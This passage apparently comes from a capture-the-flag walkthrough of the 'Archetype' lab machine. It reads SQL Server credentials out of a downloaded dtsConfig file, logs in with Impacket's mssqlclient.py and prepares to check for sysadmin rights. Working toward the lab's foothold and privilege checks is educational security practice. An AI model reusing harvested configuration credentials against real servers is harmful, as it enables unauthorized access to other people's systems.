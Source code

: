 Using `get <FILENAME>`, we can download the file to our local machine.

On our local machine, we can use the command `cat prod.dtsConfig` to show the content.


```xml
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```
It looks like there's a SQL user and password in there! 

```yml
user: ARCHETYPE\sql_svc
pass: M3g4c0rp123
```

### Foothold
---

We see it contains a SQL connection string containing credentials for the local Windows user `ARCHETYPE\sql_svc`.

Let's try connecting to the SQL Server using [Impacket's](https://github.com/SecureAuthCorp/impacket) msqliclient.py.


```console
$ python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py -windows-auth ARCHETYPE/sql_svc:M3g4c0rp123@10.10.10.27
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232)
[!] Press help for extra shell commands
SQL>
```

We now have a server connection! Now we can use the `IS_SRVROLEMEMBER` function to check whether the current SQL user has sysadmin (highest level) privileges on the SQL Server. 

The syntax of the function is:

```sql
IS_SRVROLEMEMBER ( 'role' [ , 'login' ] )
```

